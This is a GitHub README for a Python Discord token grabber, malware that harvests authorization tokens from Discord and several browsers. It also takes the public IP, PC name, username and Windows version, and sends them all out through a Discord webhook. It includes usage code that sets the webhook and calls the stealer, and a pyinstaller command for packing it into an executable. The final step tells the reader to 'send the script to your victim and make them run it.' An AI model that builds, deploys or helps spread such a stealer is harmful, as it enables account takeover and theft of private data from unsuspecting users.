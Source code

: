 <h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3. </p>
![visitor badge](https://visitor-badge.glitch.me/badge?page_id=mega145.Discord_token_grabber&left_color=red&right_color=green)

This version of the grabber **only** supports **Windows**.
# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![example](https://imgur.com/HfGR31U.png "example of simple mode")


# How to use
 1. Create a webhook on your Discord server.
<br>
 2. add it to another script (preferably as a library)

example:
```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.fancy()
```
2.75. Compile the script using pyinstaller (optional but recomended)
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- a whole lot of code refactoring
- added simple , fancy , raw functions
```

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=mega145&repo=Discord_token_grabber&bg_color=151515)](https://github.com/anuraghazra/github-readme-stats)
